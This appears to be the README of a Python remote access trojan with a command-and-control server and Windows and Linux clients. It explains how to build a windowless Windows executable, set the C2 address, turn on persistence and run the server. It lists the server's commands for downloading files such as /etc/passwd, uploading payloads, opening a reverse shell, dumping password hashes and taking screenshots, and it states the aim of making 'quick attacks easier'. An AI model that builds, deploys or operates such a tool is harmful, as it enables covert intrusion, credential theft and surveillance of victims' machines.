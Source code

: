 ## Python RAT

### Introduction

This project is a minimal implementation of a Client-Server RAT.

### Install

In order to install the dependencies, you must run the following command: (with or without venv, as you wish)

```bash
pip install -r requirements.txt
```

### Build

#### Linux

As agreed, the linux client will be executed by the python interpreter. So, no build is required. However, you must install the dependencies before.

#### Windows

For Windows client, you must additionally compile the client by running the following command: (`pyinstaller` must be installed in the previous step)

```bash
pyinstaller --noconsole --onefile client.py
```

`--noconsole` means that no window will pop up when the executable is executed.

You must find the executable in the `dist` directory.

### Usage
#### Client

The client don't need any argument to be executed, in order to make quick attacks easier. However, if you want to specify the server IP and port, you can modify those values in the `client.py`, at the end of the file: (`Client` folder)

```python
C2_IP = 'YOUR_IP'
C2_PORT = YOUR_PORT
```

You can run the client by executing the following command:

```bash
python3 client.py
```

#### Server

In order to start the server, you must specify the listening port as the first argument: (`C2` folder)

```bash
python3 main.py YOUR_PORT
```

### Available commands on the server
```
<command> [args]
====================
agents      : List all connected agents
agent       : Select an agent by ID | ID: Integer | Ex: agent 3
bg          : Deselect the current agent
kill        : Kill an agent by id | ID: Integer | kill 4
exec        : Execute a system command in the local machine
help        : Show this help message
exit        : Exit the server
==================== ONCE AGENT SELECTED:
download    : Download the specified files | FILE: String | Ex: download /etc/passwd /etc/hosts
upload      : Upload a file to selected target | LOCAL_FILE: String   REMOTE_DEST: String | upload payload.exe /tmp/payload.exe
search      : Search a file on the target's filesystem 
shell       : Open a reverse shell from the selected agent (type exit to quit the shell) (not interactive)
hashdump    : Dump the hashes from the target (may crash on Windows)
ipconfig    : Retrieve the IP Configuration from the current target 
screenshot  : Take a screenshot from the selected agent, you can optionally specify a name for the screenshot | Optional: FILE: String | screenshot [my_screenshot]
====================
```

### Misc

#### Persistancy

In order to enable persistancy, you must uncomment the following line twice in the `client.py`, at the end of the file:

```python
#client.persistence()
```

### Files structure

```
- C2/
    - main.py: Start the server, should be run with python
    - server.py: Server class, handles the communication with the agents
    - server.key: Private key for the server
    - server.crt: Certificate for the server
    - symbols.py: Custom codes for the communication
    - agent.py: Agent class
- Client/
    - client.py: Client mother class, points to the correct client depending on the OS
    - linuxClient.py: Linux client class
    - windowsClient.py: Windows client class
    - symbols.py: Custom codes for the communication, must be the same as the server. Redundant because of the portability.
```